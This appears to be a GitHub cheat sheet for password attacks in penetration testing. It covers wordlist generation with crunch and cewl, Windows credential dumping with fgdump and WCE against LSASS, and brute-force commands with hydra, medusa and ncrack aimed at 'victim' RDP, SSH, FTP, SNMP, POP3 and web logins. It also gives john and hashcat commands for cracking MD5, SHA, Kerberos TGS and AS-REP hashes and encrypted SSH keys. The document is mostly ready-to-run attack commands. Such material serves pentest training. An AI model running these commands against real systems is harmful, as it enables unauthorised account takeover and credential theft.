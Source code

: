 - [Password generator](#Password-generator)
- [Windows](#Windows)
- [Password cracking](#Password-cracking)
- [Password hash cracking](#Password-hash-cracking)
- [Pass the hash](#Pass-the-hash)
- [SSH key cracking](#SSH-key-cracking)
- [tools](#tools)
 
# Password generator

Crunch: 
  - is a wordlist generator where you can specify a standard character set or a character set you specify.

- crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
- crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
- special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
  
Cewl:
- cewl <victim_www_url> -d [num] -m [num] -w [file.txt]
------------------------------------------------------------------------------------------------------------------------
# Windows  

- pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

- WCE
- WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***
------------------------------------------------------------------------------------------------------------------------
# Password cracking

- HTTP
```
medusa -h [url] -u [user_name] -p [password_file.txt] -M http
- hydra [target_url] -l [user_name] -P [password_file] https-post-form 
/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```
- RDP
```
ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]
```
- SNMP 
``` 
hydra -P [password-file.txt] -v [victim_ip] snmp
```
- SSH 
```
hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh
```
- FTP 
```
hyrda -L [user_file] -p [password] [victim_ip] ftp
```
- POP3 
```
hyrda -L [user_file] -P [password_file.txt] [victim_ip] -s [victim_port] -t 50 -I pop3

Usefull flag
- -vV : verbose mode
- -e nsr : login as password or login as password in reversed order etc
- -t : threads
```
------------------------------------------------------------------------------------------------------------------------
# Password hash cracking

- Hash identifier
```
usage: 

hash-identifier
```
- MD5
```
john --format=raw-md5 --wordlist=rockyou.txt [hash.file]
```
- SHA1
```
john --format=raw-sha1 --wordlist=rockyou.txt [hash.file]
```
- SHA256
```
john --format=raw-sha256 --wordlist=rockyou.txt [hash.file]
```
- SHA512
```
john --format=raw-sha512 --wordlist=rockyou.txt [hash.file]
```
- krb5tgs 
```
hashcat -m 13100 --force -a 0 hashes.file passwords.txt 

john --format=krb5tgs --wordlist=passwords.txt hashes.file
```
- AS REP
```
john --wordlist=passwords_kerb.txt hashes.file

hashcat -m 18200 --force -a 0 hashes.file passwords.txt
```
------------------------------------------------------------------------------------------------------------------------
# Pass the hash

# //TODO!
------------------------------------------------------------------------------------------------------------------------

# SSH key cracking

- Cracking_encrypted_private_key

- ssh2john
```
ssh2john.py encrypted_private_key > private_key.john
```
- john
```
john private_key.john --wordlist=/usr/share/wordlists/rockyou.txt
```
------------------------------------------------------------------------------------------------------------------------
# tools
- https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py
